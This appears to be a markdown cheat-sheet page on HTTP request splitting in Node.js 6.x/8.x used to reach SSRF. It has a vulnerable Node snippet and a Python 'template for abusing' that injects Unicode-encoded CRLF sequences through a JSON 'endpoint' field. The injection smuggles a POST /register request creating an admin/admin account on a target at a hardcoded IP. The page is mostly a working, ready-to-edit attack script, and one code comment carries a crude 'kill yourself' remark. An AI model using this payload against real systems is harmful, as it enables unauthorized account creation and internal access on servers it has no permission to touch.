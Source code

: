 # HTTP request smuggling
## Node 6.x and 8.x
[Node.js http module](https://translate.google.com/website?sl=auto&tl=en&hl=ar&u=https://github.com/nodejs/node/issues/13296) is vulnerable to this attack and can be abused to trigger an SSRF attack.
- Vulnerable code
```js
const http = require('http') const server = http.createServer((req, res) => { console.log(req.url); res.end(); }); server.listen(8000, function() { http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() { }); });
```
- Python template for abusing
```python
#!/usr/bin/python3
import requests

url = "http://134.209.23.209:31246/api/weather" # Change
proxy = {"http":"http://127.0.0.1:8080"}

"""Smuggled request options"""
Method = "post".upper() # Change
endpoint_to_smuggle = "/register" # Change
host_to_smuggle = "127.0.0.1" # Change
post_data_to_smuggle = f"""username=admin&password=admin""" # Change
post_data_to_smuggle = post_data_to_smuggle.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
content_length = len(post_data_to_smuggle)

if Method == "POST":
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) + '\u010D\u010A\u010D\u010A' + post_data_to_smuggle + '\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'
else:
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120/' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) +'\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'

"""Sending payload"""
Post_data = json={'endpoint': '127.0.0.1/'+ smuggle, 'city': 'chengdu', 'country': 'CN'} # Change (must be json to avoid unicode shit or send it by hand with burp then kill yourself.)
req = requests.post(url,data=Post_data , proxies=proxy)
print("[@] Status Code: ", req.status_code)
print("[@] Response Body ", req.text)
```
> **References:**
> 1. https://www-rfk-id-au.translate.goog/blog/entry/security-bugs-ssrf-via-request-splitting
> 2. https://hackerone.com/reports/409943

